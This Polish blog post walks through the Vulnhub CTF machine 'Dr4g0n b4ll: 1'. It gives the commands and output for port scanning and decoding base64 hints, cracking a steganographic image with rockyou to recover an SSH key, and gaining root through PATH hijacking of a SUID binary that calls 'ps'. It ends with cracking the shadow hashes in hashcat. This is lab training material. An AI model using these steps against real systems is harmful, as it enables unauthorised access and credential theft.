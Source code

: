 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
gallery6:
  - url: /assets/images/hacking/2021/07/06.png
    image_path: /assets/images/hacking/2021/07/06.png
---
```

# Wstęp
Wydany w połowie stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają, jest bardzo prostą maszyną. Jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [Grub-a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu obrazów, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była. Przypominała bardziej prawdziwą sytuację w jakiejś firmie, niż taką bajkową z zagadkami z filmów o hakerach. W trudniejszym dla mnie [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/) niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/), którą znalazłem na necie. Jest to inny typ zadania, Zagadki nie są rozmieszczone celowo, ale trzeba szukać ludzkich błędów i w programie. Bardziej to przypomina prawdziwe łamanie w świecie rzeczywistym. Wracając do Dragon Ball-a, to jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. 😃
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty Nmap-em. Możemy też użyć Nmap-a w Metasploicie. Ja wolę używać Metasploita, bo potem mam wszystkie: ip, hasła, otwarte porty w jednym miejscu.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
Otwarte są tylko 2 porty: 22 i 80.
{: .text-justify}
## Analizujemy stronę
Na Stronie WWW mamy zdjęcia z anime Dragon Ball.
{: .text-justify}
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
```bash
echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Jednak do kodowania napisów w **BASE64** radzę pisać **echo -n**. Komenda **echo NAPIS | base64** zakoduje string i dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie Gobusterem:
```bash
gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy ciekawą rzecz w robots.txt:

http://172.16.1.124/robots.txt
{: .notice--info}
Ponownie rozkodowujemy:
```bash
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Dostajemy komunikat, żeby szukać ukryty katalog. Jest tutaj:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery4"  %}

Możemy wejść na stronę, ale nic na niej nie zdziałamy, taka podpucha:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .notice--info}
{% include gallery id="gallery6"  %}
Strona nie działa poprawnie, ale mamy login i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
## Czas się przyjrzeć obrazowi
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```console
root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
ssh -i id_rsa xmen@172.16.1.113
```
## Lądujemy w Shellu
Działa.Mamy katalog **script**, ale poszukajmy plików, które mają ustawiony bit **suid**. Może się znajdzie coś interesującego:
{: .text-justify}
```console
xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Godna uwagi jest zawartość w: **/home/xmen/script/shell**
```console
xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia Root-a i uruchamia program **ps**:
{: .text-justify}
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
Czyli działa to tak:
{: .text-justify}
```console
xmen@debian:~/script$ ./shell
   PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
xmen@debian:~/script$
```
W kodzie programu nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program **ps** w katalogu domowym:
{: .text-justify}
```bash 
file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym:
{: .text-justify}
```bash
PATH="/home/xmen:$(echo $PATH)"
```
```console
xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
xmen@debian:~/script$ ./shell
root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
root@debian:~/script#
```
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać dla nich uprawnienia **suid**. **Ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
## Na koniec deser
Skoro mamy Root-a, to możemy złamać hasła użytkowników. Zobaczmy czy nam się uda:
{: .text-justify}
```powershell
c:\temp\hashcat611>hashcat.exe -O -a0 -m1800 dr4g0n_b4ll.hash rockyou.txt --show
$6$ryGtS7NFOo0fL3Bz$DgubBE9c3PT1jO/PwcZN6/L9ryVrSE5YrOFW.OAt61lTltdvpqXiUJAMowAteKrHr4Dzo9aC3mP2KTLvmgsBl1:ajs
$6$LE/lm1ySj7zuJI08$JgfeDLBfd.ANiXAsAnAterH5wvNXbSrexGNfD8hGbJJiObtkVcly.Y.iCjWAO.T7WnzvKeFjV09yL/KQ/6j.g/:mrxmen
$6$rGpU.19PmreHrE2a$RD.cGy7WmrdLMdQSDiclKK/iYz95W8OUhujLWtTHloFXS/sNLwrb12yGkDvpZ60u73pa2k8m5PxZhhEjGZa.x.:love
```
No i mamy 3 hasła, w tym Root-a. Co tu robi konsola windowsowa? Ano używam Hashcata na Windowsie, ze względu na kartę graficzną, która bardzo przyśpiesza rozkodowywanie **hashy**.
{: .text-justify}
